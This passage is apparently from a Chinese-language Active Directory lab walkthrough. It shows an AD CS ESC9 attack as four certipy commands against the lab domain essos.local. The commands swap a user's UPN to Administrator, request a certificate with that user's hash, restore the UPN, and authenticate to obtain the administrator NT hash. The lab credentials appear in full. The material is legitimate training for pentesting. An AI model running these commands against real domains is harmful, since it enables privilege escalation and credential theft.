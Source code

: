 1.  将**viserys.targaryen**的 UPN 更新为管理员：

    ```
    certipy account update -username 'khal.drogo@essos.local' -p 'horse' -user viserys.targaryen -upn Administrator
    ```

1.  使用 ESC9 易受攻击模板以**viserys.targaryen**身份请求证书：

    ```
    certipy req -username 'viserys.targaryen@essos.local' -hashes 'd96a55df6bef5e0b4d6d956088036097' -target 192.168.56.23 -ca 'ESSOS-CA' -template ESC9
    ```

1.  将**viserys.targaryen**的 UPN 更改回原始值：

    ```
    certipy account update -username 'khal.drogo@essos.local' -p 'horse' -user viserys.targaryen -upn viserys.targaryen@essos.local
    ```

1.  通过 nPAC-the-hash 获取管理员的 NT 哈希：

    ```
    certipy auth -pfx 'administrator.pfx' -domain 'essos.local'
    ```

攻击结果如下截图所示：
